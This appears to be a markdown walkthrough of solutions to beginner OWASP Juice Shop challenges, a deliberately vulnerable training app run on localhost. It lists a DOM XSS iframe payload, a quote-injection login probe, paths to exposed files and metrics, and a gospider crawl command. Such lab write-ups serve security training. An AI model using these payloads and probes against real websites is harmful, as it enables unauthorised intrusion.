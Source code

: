 # OWASP Juice Shop<br>
## 1 STAR
### Score Board<br>
Firefox > Debugger > Search score > found: /score-board<br>

### Bully Chatbot<br>
Menu > Support Chat > Keep spamming coupong <br>

### DOM XSS<br>
search bar > <iframe src="javascript:alert(`xss`)"><br>

### Bonus Payload<br>
Search bar > <iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe><br>

### Confidential Document<br>
http://localhost:3000/ftp > acquisitions.md<br>

### Error Handling<br>
Account Login > put ' in email and password fields<br>

### Exposed Metrics<br>
http://localhost:3000/metrics<br>

### Outdated Allowlist<br>
gospider -v -s http://127.0.0.1:3000/ -o gospider_output<br>
cd gospider_output
cat 127_0_0_1 | grep code-200<br>

### Missing Encoding<br>
change # to %23<br>
http://localhost:3000/assets/public/images/uploads/%F0%9F%98%BC-%23zatschi-%23whoneedsfourlegs-1572600969477.jpg<br>

### Exposed Metrics<br>
http://localhost:3000/metrics<br>

